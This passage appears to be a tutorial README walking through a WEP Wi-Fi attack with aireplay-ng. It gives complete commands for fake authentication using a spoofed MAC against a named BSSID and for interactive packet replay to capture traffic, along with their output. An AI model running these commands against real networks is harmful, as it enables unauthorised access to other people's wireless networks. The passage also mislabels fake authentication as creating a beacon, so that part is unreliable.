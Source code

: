 


## Beacon Frame For Channel 6

Will will use `aireplay-ng` for this task with option `-1`. It performs the ***fake authentication***  

Beacon Command:  
`sudo aireplay-ng -1 600 -a E8:94:F6:F2:F1:E1 -h 12:34:45:67:89:01 wlp2s0mon`  
Creates the beacon.

Output Screenshot:  
![Screenshot](images/BeaconFrameOnChannel.png)

Output Text:  
```
The interface MAC (AC:7B:A1:84:EB:D5) doesn't match the specified MAC (-h).
	ifconfig wlp2s0mon hw ether 12:34:45:67:89:01
13:52:22  Waiting for beacon frame (BSSID: E8:94:F6:F2:F1:E1) on channel 12
13:52:23  wlp2s0mon is on channel 12, but the AP uses channel 6
```


## Start Capturing Packets

Will will use `aireplay-ng` for this task with option `-2`. It performs the ***interactive frame selection***. 

Command to Create Packets In Cap:  
`sudo aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b E8:94:F6:F2:F1:E1 -h 12:34:45:67:89:01 wlp2s0mon`  
Writes the data frames or packets in the `<WEP_Network>.cap`.


Output Screenshot:  
![Screenshot](images/AirDump_Packets.png)
